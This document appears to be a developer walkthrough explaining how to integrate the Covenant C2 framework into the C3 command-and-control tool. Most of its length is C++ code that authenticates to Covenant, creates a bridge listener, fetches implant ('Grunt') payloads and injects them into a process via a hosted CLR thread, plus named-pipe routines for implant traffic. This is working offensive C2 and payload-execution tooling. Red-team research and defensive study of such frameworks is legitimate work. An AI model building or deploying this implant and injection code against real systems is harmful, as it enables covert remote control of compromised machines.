

Covenant is a freely open source C2 framework developed in .NET. Covenant is a collaborative framework that demonstrates modern capabilities of .NET offensive tooling. 

There are a number of commonalities between C2 frameworks that should be considered prior to integration with C3:

* Payload generation – all frameworks have some manual or automated way of generating payloads.

* Staging – the majority of frameworks provide access to staged and stageless payloads.

* Implant tracking – any framework that expects to handle multiple implants running across several compromised system must internally track those implants.

In Covenant’s case:

* Payload generation – Grunts (implants) can be generated from the Web UI or the Web API.

* Staging – payloads have 3 stages before a fully established C2 channel is setup.

* Implant tracking – Grunt’s are set with a unique GUID that is sent in any communication for internal tracking.

The second consideration to make is the ability for the given framework to accept connections and receive implant data. Cobalt Strike for example has the ExternalC2 specification. For Covenant the “Bridge Listener” provides similar functionality.

Finally, for ease of integration it helps if the chosen framework provides access to implants that communicate with each other over internal communication channels. Specifically, C3 expects the implants it runs in memory to create a named pipe for which data is read from and written to.

At a high level, the objective of integration would result in the communication flow described in the figure below:




## Getting Started - Code Reuse is Good

The first step for integrating Covenant involves creating the new source files within C3. Initially this is performed by copying the the code from `/src/Common/MWR/C3/Interfaces/Connectors/TeamServer.cpp` to `Covenant.cpp`. 

After replacing references to TeamServer, we end up with a number of methods that we simply need to redesign to work with Covenant. Highlighted below are the main functions which require alteration.

```c++
namespace MWR::C3::Interfaces::Connectors
{
	/// A class representing communication with Covenant.
	struct Covenant : Connector<Covenant>
	{
		/// Public constructor.
		/// @param arguments factory arguments.
		Covenant(ByteView arguments);
                <...Snipped...>
        }
<...Snipped...>
}

MWR::C3::Interfaces::Connectors::Covenant::Covenant(ByteView arguments)
{
<...Snipped...>
}

MWR::ByteVector MWR::C3::Interfaces::Connectors::Covenant::GeneratePayload(ByteView binderId, std::string pipename, uint32_t delay, uint32_t jitter, uint32_t connectAttempts)
{
<...Snipped...>
}

MWR::ByteView MWR::C3::Interfaces::Connectors::Covenant::GetCapability()
{
<...Snipped...>
}
```

It is also worth noting that Covenant provides access to a RESTful API, of which the following methods will aid in the integration of this framework:

* `/api/users/login` – a POST request that provides us with a JWT token for use in subsequent requests.
* `/listener/createbridge` – not part of the API, but allows the client to create a C2Bridge listener.
* `/api/launchers/binary` – PUT and GET requests are used to populate a Grunt template and then retrieve the Base64 encoded shellcode respectively.

## Setting up a Listener

With the relevant code in place, the next stage involves working towards payload generation. There are multiple steps required to achieve this goal. First and foremost, Covenant requires an active listener prior to allowing a payload to be generated. 

**Stage 1 - Getting User Input**

The first function to be implemented is `GetCapability`, this is the form that users interact with when the create a new Covenant connector. Covenant's API requires authentication, as such we will need the user to specify at minimum a username, password, the location of the Covenant instance, and a port for the C2Bridge (to be discussed shortly).

This is achieved through the code below:
```c++
MWR::ByteView MWR::C3::Interfaces::Connectors::Covenant::GetCapability()
{
	return R"(
	{
	"create":
	{
		"arguments":
		[
			{
				"type": "uint16",
				"name": "C2BridgePort",
				"min": 2,
				"defaultValue": 8000,
				"randomize": true,
				"description": "The port for the C2Bridge Listener if it doesn't already exist."
			},
			{
				"type": "string",
				"name": "Covenant Web Host",
				"min": 1,
				"defaultValue": "https://127.0.0.1:7443/",
				"description": "Host for Covenant - eg https://127.0.0.1:7443/"
			},
			{
				"type": "string",
				"name": "Username",
				"min": 1,
				"description": "Username to authenticate"
			},
			{
				"type": "string",
				"name": "Password",
				"min": 1,
				"description": "Password to authenticate"
			}
		]
	},
	"commands":
	[
		{
			"name": "Close connection",
			"description": "Close socket connection with TeamServer if beacon is not available",
			"id": 1,
			"arguments":
			[
				{
					"name": "Route Id",
					"min": 1,
					"description": "Id associated to beacon"
				}
			]
		}
	]
}
)";
}
```
The resulting form is shown in the next figure. Note that no changes were made to the actual web interface of C3.
FIGURE2

**Stage 2 - Handle User Input**

Once this form is submitted the only thing we need to know is that the connector's constructor is called and passed a `ByteView` containing the user supplied arguments. As well as adding the form above, we also made sure to create member variables for the Covenant connector object that will store the user supplied arguments. As such, when the constructor is called we are able to retrieve and store the arguments by simply doing:

```c++
MWR::C3::Interfaces::Connectors::Covenant::Covenant(ByteView arguments)
{
	std::tie(m_ListeningPostPort, m_webHost, m_username, m_password) = arguments.Read<uint16_t, std::string, std::string, std::string>();
<...Snipped...>
```

If you wanted to test this, you could simply add a print statement below this line and view the output in the Gateway's console.

**Stage 3 - Authenticate to Covenant**

Stage 3 involves actually authenticate with the Covenant API so that we can subsequently add a new listener. For those not familiar with the CPP Rest SDK that is used within C3, it is strongly advised that code snippets are taken from the Slack channel.

The code below demonstrates how we authenticate to Covenant within the constructor. At a high level we:
1. Create the JSON object containing credentials

2. Initialise a `http_client` that ignores certificate errors and is set to make a request to the user supplied host for `/api/users/login`

3. Make the request and if successful, retrieve the authentication token.

```c++
MWR::C3::Interfaces::Connectors::Covenant::Covenant(ByteView arguments)
{
	json postData;
	json response;

	std::tie(m_ListeningPostPort, m_webHost, m_username, m_password) = arguments.Read<uint16_t, std::string, std::string, std::string>();

	// if the last character is '/' remove it
	if (this->m_webHost.back() == '/')
		this->m_webHost.pop_back();


	/***Authenticate to Web API ***/
	std::string url = this->m_webHost + OBF("/api/users/login");

	postData[OBF("username")] = this->m_username;
	postData[OBF("password")] = this->m_password;

	web::http::client::http_client_config config;
	config.set_validate_certificates(false); //Covenant framework is unlikely to have a valid cert.

	web::http::client::http_client webClient(utility::conversions::to_string_t(url), config);
	web::http::http_request request;

	request = web::http::http_request(web::http::methods::POST);
	request.headers().set_content_type(utility::conversions::to_string_t(OBF("application/json")));
	request.set_body(utility::conversions::to_string_t(postData.dump()));

	pplx::task<web::http::http_response> task = webClient.request(request);
	web::http::http_response resp = task.get();

	if (resp.status_code() == web::http::status_codes::OK)
	{
		//Get the json response
		auto respData = resp.extract_string();
		response = json::parse(respData.get());
	}
	else
		throw std::exception((OBF("[Covenant] Error authenticating to web app, HTTP resp: ") + std::to_string(resp.status_code())).c_str());

	//Get the token to be used for all other requests.
	if (response[OBF("success")])
		this->m_token = response[OBF("covenantToken")].get<std::string>();
	else
		throw std::exception(OBF("[Covenant] Could not get token, invalid logon"));
```

**Stage 4 - Create the Listener**

With a valid token it is now possible to create the `C2BridgeListener` in Covenant. The logic implemented in C3 for this is as follows:

1. Check if the listener we want is already setup

2. If not, create it

The first step is handled by `UpdateListenerId`, which won't be described in depth. Simply put, this method checks if a listener named "C3Bridge" exists and if so, retrieves the `connectAddress`, `connectPort` and most importantly the `id`.

The second step involves parsing the user supplied data and then fudging a request to Covenant as `/listener/createbridge` is not technically part of the RESTful API. The high level description of listener creation is:

1. Extract the IP address of Covenant

2. Create a URL encoded POST request specifying the host and port to setup the listener

3. Execute the POST request and make a final call to `UpdateListenerId` in order to get the listener ID.

```c++
<...Following on from previous code snippet...>

//Get the token to be used for all other requests.
	if (response[OBF("success")])
		this->m_token = response[OBF("covenantToken")].get<std::string>();
	else
		throw std::exception(OBF("[Covenant] Could not get token, invalid logon"));

	//If the listener doesn't already exist create it.
	if (!UpdateListenerId())
	{
		//extract ip address from url
		size_t start = 0, end = 0;
		start = url.find("://") + 3;
		end = url.find(":", start + 1);

		if (start == std::string::npos || end == std::string::npos || end > url.size())
			throw std::exception(OBF("[Covenenat] Incorrect URL, must be of the form http|https://hostname|ip:port - eg https://192.168.133.171:7443"));

		this->m_ListeningPostAddress = url.substr(start, end - start);

		///Create the bridge listener
		url = this->m_webHost + OBF("/listener/createbridge");
		web::http::client::http_client webClientBridge(utility::conversions::to_string_t(url), config);
		request = web::http::http_request(web::http::methods::POST);
		request.headers().set_content_type(utility::conversions::to_string_t(OBF("application/x-www-form-urlencoded")));

		std::string authHeader = OBF("Bearer ") + this->m_token;
		request.headers().add(OBF_W(L"Authorization"), utility::conversions::to_string_t(authHeader));

		std::string createBridgeString = "Id=0&GUID=b85ea642f2&ListenerTypeId=2&Status=Active&CovenantToken=&Description=A+Bridge+for+custom+listeners.&Name=C3Bridge&BindAddress=0.0.0.0&BindPort=" + \
			std::to_string(this->m_ListeningPostPort) + "&ConnectPort=" + std::to_string(this->m_ListeningPostPort) + "&ConnectAddresses%5B0%5D=" + \
			this->m_ListeningPostAddress + "&ProfileId=3";
		request.set_body(utility::conversions::to_string_t(createBridgeString));

		task = webClientBridge.request(request);
		resp = task.get();

		if (resp.status_code() != web::http::status_codes::OK)
			throw std::exception((OBF("[Covenant] Error setting up BridgeListener, HTTP resp: ") + std::to_string(resp.status_code())).c_str());

		if(!UpdateListenerId()) //now get the id of the listener
				throw std::exception((OBF("[Covenant] Error getting ListenerID after creation")));

	}
	//Set the listening address to the C2-Bridge on localhost
	this->m_ListeningPostAddress = "127.0.0.1";
	InitializeSockets();
}

```

The final 2 lines of the Covenant connector's constructor may cause confusion. The listener that is created does not expect direct connections from Grunts. Instead, the C2Bridge project is meant to be used as a middle man. This is demonstrated in the Video here "Video".

## Payload Generation

Payload generation is implemented in the `GeneratePayload` method, which in-turn is called from the `PeripheralCreationCommand` method as shown below.

```c++
MWR::ByteVector MWR::C3::Interfaces::Connectors::Covenant::PeripheralCreationCommand(ByteView connectionId, ByteView data, bool isX64)
{
	auto [pipeName, delay, jitter, connectAttempts] = data.Read<std::string, uint32_t, uint32_t, uint32_t>();

	return ByteVector{}.Write(pipeName, GeneratePayload(connectionId, pipeName, delay, jitter, connectAttempts), connectAttempts);
}
```
The arguments (eg. `pipeame`, `delay`, `jitter`) are provided by the user from the `AddPeripheralX` command, where X could be `Beacon` or `Grunt`. As we have yet to add a Grunt Peripheral to C3 at this stage, it is simpler to add a call to `GeneratePayload` at the end of the constructor. Once the Grunt Peripheral code is added we can remove this call and simply use the Web form.

For payload generation we again turn to Covenant's API. The logic is simple: 

1. Take user supplied arguments, such as the name of the SMB pipe to create.

2. Make a PUT request to generate a GruntSMB template.

3. Make a POST request to get the Base64 encoded .NET assembly in binary format.

4. Create a socket connection to the C2Bridge port.

5. Return the payload.

It is worth noting that we do not need to know where the payload is being returned to, such information is part of C3's core code, and we wanted to make extensions to C3 as easy as possible. All the developer needs to do is make sure the payload is correct, and it will make it's way to the correct Relay.

The logic for the above actions is as such:

```c++
MWR::ByteVector MWR::C3::Interfaces::Connectors::Covenant::GeneratePayload(ByteView binderId, std::string pipename, uint32_t delay, uint32_t jitter, uint32_t connectAttempts)
{
if (binderId.empty() || pipename.empty())
		throw std::runtime_error{ OBF("Wrong parameters, cannot create payload") };

	std::string authHeader = OBF("Bearer ") + this->m_token;
	std::string contentHeader = OBF("Content-Type: application/json");
	std::string binary;

	web::http::client::http_client_config config;
	config.set_validate_certificates(false);
	web::http::client::http_client webClient(utility::conversions::to_string_t(this->m_webHost + OBF("/api/launchers/binary")), config);
	web::http::http_request request;

	//The data to create an SMB Grunt
	json postData;
	postData[OBF("id")] = this->m_ListenerId;
	postData[OBF("smbPipeName")] = pipename;
	postData[OBF("listenerId")] = this->m_ListenerId;
	postData[OBF("outputKind")] = OBF("ConsoleApplication");
	postData[OBF("implantTemplateId")] = 2; //for GruntSMB template
	postData[OBF("dotNetFrameworkVersion")] = OBF("Net40");
	postData[OBF("type")] = OBF("Wmic");
	postData[OBF("delay")] = delay;
	postData[OBF("jitterPercent")] = jitter;
	postData[OBF("connectAttempts")] = connectAttempts;

	//First we use a PUT to add our data as the template.
	request = web::http::http_request(web::http::methods::PUT);
	try
	{
		request.headers().set_content_type(utility::conversions::to_string_t("application/json"));
		request.set_body(utility::conversions::to_string_t(postData.dump()));

		request.headers().add(OBF_W(L"Authorization"), utility::conversions::to_string_t(authHeader));
		pplx::task<web::http::http_response> task = webClient.request(request);
		web::http::http_response resp = task.get();

		//If we get 200 OK, then we use a POST to request the generation of the payload. We can reuse the previous data here.
		if (resp.status_code() == web::http::status_codes::OK)
		{
			request.set_method(web::http::methods::POST);
			task = webClient.request(request);
			resp = task.get();

			if (resp.status_code() == web::http::status_codes::OK)
			{
				auto respData = resp.extract_string();
				json resp = json::parse(respData.get());
				binary = resp[OBF("base64ILByteString")].get<std::string>(); //Contains the base64 encoded .NET assembly.
			}
			else
				throw std::runtime_error(OBF("[Covenant] Non-200 HTTP code returned: ") + std::to_string(resp.status_code()));
		}
		else
			throw std::runtime_error(OBF("[Covenant] Non-200 HTTP code returned: ") + std::to_string(resp.status_code()));

		auto payload = cppcodec::base64_rfc4648::decode(binary);

		//Finally connect to the socket.
		auto connection = std::make_shared<Connection>(m_ListeningPostAddress, m_ListeningPostPort, std::static_pointer_cast<Covenant>(shared_from_this()), binderId);
		m_ConnectionMap.emplace(std::string{ binderId }, std::move(connection));
		return payload;
	}
	catch(std::exception&)
	{
		throw std::exception(OBF("Error generating payload"));
	}
}

```

## Adding the Grunt Peripheral

As described, when testing the code above we cheated by adding a call the `GeneratePayload` in the connector's constructor. What we actually need to do is add a Peripheral called `Grunt` to C3. In similar fashion to how the Covenant.cpp connector code was developed, we start by copying `/Src/Common/MWR/C3/Interfaces/Peripherals/Beacon.cpp` to `Src/Common/MWR/C3/Interfaces/Peripherals/Grunt.cpp` - the same is done for the header files. 


**Stage 1 - Getting User Input**

In order to get user input that is passed to the Covenant connector `GeneratePayload` method, we need to edit the Grunt Peripheral's `GetCapability` function:

```c++
MWR::ByteView MWR::C3::Interfaces::Peripherals::Grunt::GetCapability()
{
	return R"(
{
	"create":
	{
		"arguments":
		[
			{
				"type": "string",
				"name": "Pipe name",
				"min": 4,
				"randomize": true,
				"description": "Name of the pipe Beacon uses for communication."
			},
			{
				"type": "int32",
				"min": 1,
				"defaultValue" : 30,
				"name": "Delay",
				"description": "Delay"
			},
			{
				"type": "int32",
				"min": 0,
				"defaultValue" : 30,
				"name": "Jitter",
				"description": "Jitter"
			},
			{
				"type": "int32",
				"min": 10,
				"defaultValue" : 30,
				"name": "Connect Attempts",
				"description": "Number of attempts to connect to SMB Pipe"
			}
		]
	},
	"commands": []
}
)";
}
```

**Stage 2 - Grunt Execution**

As Covenant is a .NET framework, this process is far more involved than what occurs with CobaltStrike's beacons. For brevity only key points will be described.

First and foremost, when the user submits the form above and a payload is generated, this is eventually passed to the Relay through whatever channel it is communicating over, which in-turn calls the appropriate peripheral's constructor. The flow shown below may describe this best:

1. User submits AddPeripheralGrunt form from a Relay command centre

2. C3 Gateway calls Covenant's `GeneratePayload` method

3. C3 Gateway sends generated payload to the relay over Slack/O365 or whatever channel has been setup

4. Relay calls the constructor defined in Grunt.cpp.

The constructor for a Grunt is slightly complex, essentially we execute the .NET assembly in our own CLR instance running in a seperate thread. Note the `arguments.Read` call below, these are passed in the same order they are presented in the web form.

```c++
MWR::C3::Interfaces::Peripherals::Grunt::Grunt(ByteView arguments)
{

	auto [pipeName, payload, connectAttempts] = arguments.Read<std::string, ByteVector, uint32_t>();
	
	BYTE *x = (BYTE *)payload.data();
	SIZE_T len = payload.size();

	//Setup the arguments to run the .NET assembly in a seperate thread.
	namespace SEH = MWR::WinTools::StructuredExceptionHandling;
	SEH::gruntArgs args;
	args.gruntStager = x;
	args.len = len;
	args.func = RuntimeV4Host;


	// Inject the payload stage into the current process.
	if (!CreateThread(NULL, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(SEH::SehWrapperCov), &args, 0, nullptr))
		throw std::runtime_error{ OBF("Couldn't run payload: ") + std::to_string(GetLastError()) + OBF(".") };

	std::this_thread::sleep_for(std::chrono::milliseconds{ 30 }); // Give Grunt thread time to start pipe.
	for (int i = 0; i < connectAttempts; i++)
	{
		try
		{
			m_Pipe = WinTools::AlternatingPipe{ ByteView{ pipeName } };
			return;
		}
		catch (std::exception& e)
		{
			// Sleep between trials.
			Log({ OBF_SEC("Grunt constructor: ") + e.what(), LogMessage::Severity::DebugInformation });
			std::this_thread::sleep_for(std::chrono::milliseconds{ 100 });
		}
	}
	
	throw std::runtime_error{ OBF("Grunt creation failed") };
}

```

**Stage 3 - Updating Read/Write Methods**

The final stage of this integration involves making a change as to how the C3 Relay communicates with the SMB Grunt. Simply put, C3 needs to match how the C2 framework it is communicating with reads and writes data. For example, the SMB Grunt writes data as such:

```c#
public static void Write(PipeStream pipe, byte[] bytes)
        {
            byte[] compressed = Compress(bytes);
            byte[] size = new byte[4];
            size[0] = (byte)(compressed.Length >> 24);
            size[1] = (byte)(compressed.Length >> 16);
            size[2] = (byte)(compressed.Length >> 8);
            size[3] = (byte)compressed.Length;
            pipe.Write(size, 0, size.Length);
            var writtenBytes = 0;
            while (writtenBytes < compressed.Length)
            {
                int bytesToWrite = Math.Min(compressed.Length - writtenBytes, 1024);
                pipe.Write(compressed, writtenBytes, bytesToWrite);
                writtenBytes += bytesToWrite;
            }
        }
```

In order for the C3 Relay to read this data, we must alter the named pipe communications. This requires creating a custom named pipe communication specific to Covenant. Essentially, we create a new read method `ReadCov` in `/Src/Common/MWR/WinTools/Pipe.cpp` as part of the `AlternatingPipe` class. This method reflects how an SMB Grunt writes data.

```c++
MWR::ByteVector MWR::WinTools::AlternatingPipe::ReadCov()
{
	DWORD temp = 0, total = 0;
	if (WaitForSingleObject(m_Event.get(), 0) != WAIT_OBJECT_0)
		return{};

	//The SMB Grunt writes the size of the chunk in a loop like the below, mimic that here.
	BYTE size[4] = { 0 };
	int totalReadBytes = 0;
	for(int i = 0; i < 4; i++)
		ReadFile(m_Pipe.get(), size + i, 1, &temp, NULL);
	

	DWORD32 len = (size[0] << 24) + (size[1] << 16) + (size[2] << 8) + size[3];

	ByteVector buffer;
	buffer.resize(len);

	//Now read the actual data
	DWORD read = 0;
	temp = 0;
	while (total < len) {
		bool didRead = ReadFile(m_Pipe.get(), (LPVOID)& buffer[read], len - total, &temp,
			NULL);
		total += temp;
		read += temp;
	}

	return buffer;

}

```

Back in the Grunt.cpp code, we alter the `OnReceiveFromPeripheral` method to make use of this new logic:

```c++
MWR::ByteVector MWR::C3::Interfaces::Peripherals::Grunt::OnReceiveFromPeripheral()
{	
	std::unique_lock<std::mutex> lock{ m_Mutex };
	m_ConditionalVariable.wait(lock, [this]() { return m_ReadingState || m_Close; });
	
	if(m_Close)
		return {};

	// Read
	auto ret = m_Pipe->ReadCov();
	
	m_ReadingState = false;
	lock.unlock();
	m_ConditionalVariable.notify_one();
	
	return  ret;
	
}

```

Similarly, the Grunt Peripheral's `OnCommandFromConnector` method is altered to call `m_Pipe->WriteCov();`, which in-turn reflects how an SMB Grunt reads data. 

## Final Points

This is all that is required to integrate Covenant into C3. Of course there were changes that needed to be made to Covenant, in total this was roughly 5 or 6 lines worth of changes. Other C2 frameworks may need more or less work. 

The overall point that we want to make with the walkthrough is that there is no requirement to read through C3's core code, or even have knowledge of the functionality. C3 is designed to be easy to extend, and hopefully this is demonstrated here.